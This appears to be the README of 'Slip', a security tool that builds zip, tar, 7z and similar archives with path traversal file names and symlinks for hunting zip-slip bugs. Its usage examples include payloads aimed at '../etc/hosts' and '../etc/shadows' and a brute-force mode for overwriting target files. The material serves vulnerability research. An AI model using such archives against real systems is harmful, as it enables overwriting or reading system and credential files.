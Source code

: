 # Slip

Slip is a malicious archive generator to exploit path traversal vulnerabilities.

Slip makes it easy to create multiple archives containing path traversal payloads in file name fields, rendering the extraction of the archive a potentially dangerous operation. With this approach it is possible to find and exploit "[zip-slip](https://security.snyk.io/research/zip-slip-vulnerability)" type vulnerabilities.

## Motivation

Most commonly used tools rarely support path traversal payloads in archives, this makes it hard and time consuming to create malicious archives when attempting to find vilnerabilities in a software. With slip it's really convenient to create higly customizable archives that fit most situations.

## Features

Slip is a feature rich script capable of satisfying most "zip-slip" hunting needs, in particular the script:

- Supports **zip**, **tar**, **7z**, **jar**, **war**, **apk** and **ipa** archives (and every compression algorithm supported by each format)
- Allows to hunt for both **arbitrary file write** and **arbitrary file read** vulnerabilities (using paths or symlinks)
- Supports multiple payloads of different types (paths/symlinks)
- Supports the automatic generation of path traversal payloads to look for a file at different "depths" 
- Supports the usage of custom "dotdotslash" sequences
- Implements a "massfind" mode, that uses a payload dictionary to create the archive

## Getting started

### Installation
Clone the repo, install the requirements (`pip install -r requirements.txt`) and you're good to go!

### Usage
```
Usage: slip.py [OPTIONS] ARCHIVE_NAME

  Script to generate "zipslip" and "zip symlink" archives.

  ARCHIVE-NAME is the name of the archive to be created.

Options:
  -a, --archive-type [zip|tar|7z|jar|war|apk|ipa]
                                  Type of the archive.  [default: zip]
  -c, --compression [none|deflate|bzip2|lzma|lzma2|ppmd|brotli|zstandard|copy]
                                  Compression algorithm to use in the archive.
  -p, --paths TEXT                Comma separated paths to include in the
                                  archive.
  -s, --symlinks TEXT             Comma separated symlinks to include in the
                                  archive. To name a symlink use the syntax:
                                  path:name
  --file-content TEXT             Content of the files in the archive, file-
                                  content or multi-file-contents must be
                                  specified if paths are used.
  --multiple-file-contents TEXT   Base64 encoded contents of the files in the
                                  archive separated by commas, the number of
                                  elements in multiple-file-contents must be
                                  equal to the number of paths. The options
                                  multi-file-contents or file-content must be
                                  specified if paths are used. This options
                                  overrides file-content option if both are
                                  specified.
  --force-name                    If set, the filename will be forced exactly
                                  as provided.
  --search INTEGER                If set, paths and symlink will generate
                                  multiple traversal paths to try and find the
                                  target file or path at different depths.
                                  [default: 0]
  --dotdotslash TEXT              Dot dot slash sequence to use in search
                                  mode.  [default: ../]
  --mass-find TEXT                Name of the file to find. It will create an
                                  archive with numerous path traversal
                                  payloads aimed to find the specified file
                                  name. WARNING: it uses A LOT of payloads,
                                  use with caution.
  --mass-find-mode [paths|symlinks]
                                  Mass-find mode to use  [default: symlinks]
  --mass-find-dict FILENAME       Mass-find payload dictionary  [default:
                                  path_traversal_dict.txt]
  --mass-find-placeholder TEXT    Mass-find placeholder for filename in
                                  dictionary  [default: {FILE}]
  -v, --verbose                   Verbosity trigger.
  --help                          Show this message and exit.

```

### Usage example

Create a tar.bz2 archive containing 2 explicit paths: 
```
python3 slip.py --archive-type tar --compression bzip2 --paths "../etc/hosts, ../../etc/hosts" --file-content "foo" archive
```

Create a zip archive containing an explicit path and an explicit symlink: 
```
python3 slip.py --archive-type zip --compression deflate --paths "../etc/hosts" --symlinks "../etc/shadows" --file-content "foo" archive
```

Create a tar.bz2 archive with 4 payloads to search for "config.ini" at 3 different depths (it also uses Windows flavor dot dot slash): 
```
python3 slip.py --archive-type tar --compression bzip2 --paths "config.ini" --search 3 --dotdotslash "..\\" --file-content "foo" archive
```
The archive will contain:
```
config.ini
..\config.ini
..\..\config.ini
..\..\..\config.ini
```

Create a 7z archive with a named symlink:
```
python3 slip.py --archive-type zip --symlinks "../etc/hosts:linkname" archive  
```
This technique is really useful in case directory traversal payloads are filtered in paths but not in symlink, as it would be possible to achieve an arbitrary write file referring to the named symlink as parth of the path (e.g. symlink: `../etc/:foo`, path: `foo/hosts`).

Create a tar archive with multiple payloads (from the default mass-find dictionary) to find the `/etc/host/` file:
```
python3 slip.py --archive-type tar --mass-find "/etc/hosts" --mass-find-mode symlinks archive
```
⚠️ WARNING: mass-find mode supports paths, this translates to a bruteforce attempt to rewrite a specific file, but it potentially uses A LOT of payloads, so the result is unpredictable. Use with caution.

Create a zip archive with multiple file contents.
```
python3 slip.py --archive-type zip --paths "xxx, yyy, zzz" --multiple-file-contents "eHh4, eXl5, enp6" archive
```
This mode allow to specify one-by-one the content of each file in the archive. This allow the reconstruction of complex archive files like DOCX or XLSX.
The number of paths and the number of file contents must match. The file contents have to be set in base64 to avoid troubles with unexcaped characters.

## Notes
- Depending on the library that handles the decompression, results may vary greatly.

  Different compression algorithms can trigger different behaviours during the extraction, but also the usage of certain path traversal payloads in names or the co-presence of path traversal payloads in names and symlink can lead to weird behaviours during the extraction. Many combinations of compression algorithms, archive types and payloads are relatively untested and should be evaluated on a case by case basis to obtain the best results.

- Archive types: jar|war|apk|ipa are supported as simple zip archives.  
The archive format is correct, but valid archives should contain compatible contents.
Valid contents can be set manually and are not yet supported by slip.
Please note that many software that handles these formats, treat them as zip files.
This means that using the correct extension will suffice.

## License
This project is licensed under the GPL-3.0 [License](https://github.com/0xless/slip/blob/main/LICENSE).
